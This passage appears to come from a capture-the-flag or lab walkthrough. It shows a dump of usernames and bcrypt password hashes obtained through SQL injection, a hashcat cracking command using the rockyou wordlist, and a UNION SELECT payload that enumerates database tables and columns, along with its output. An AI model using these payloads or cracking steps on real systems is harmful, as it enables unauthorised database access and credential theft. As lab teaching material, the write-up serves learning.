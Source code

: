 ```Q
User system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW | michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q | jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG | admin:$2b$10$qUVwwiluchM7Bd6EXups5.3keuwY8KoYItAzWngnBYxtonwP3B4IG | test:$2b$10$EdLDv/f8esSnwagwb401pOb5fU/302b1rSxr1rmPze//M/SDJlz4G  
ID: 1  
Is administrator: true
```

We got the all user's password hash and usernames too seperated by `|`.
We have these hashes.
![](Pasted%20image%2020250318170311.png)

Lets try cracking there hashes.
```bash
hashcat -m 3200 -a 0 user_hash.txt /usr/share/wordlists/rockyou.txt --force
```

But even after a very long time,it didn't worked.

## Foothold

Lets again enumerate the sql.

```SQL
14 UNION SELECT 1,GROUP_CONCAT(table_name, ':', column_name SEPARATOR ' | '),3,4 FROM information_schema.columns WHERE table_schema=database();-- -
```

Putting these will provide different things.
![](Pasted%20image%2020250318171302.png)

So we got this.
```Q
User items:author | items:description | items:id | items:image | items:title | messages:id | messages:is_read | messages:message_content | messages:user_from | messages:user_to | users:id | users:isAdministrator | users:password | users:username
```
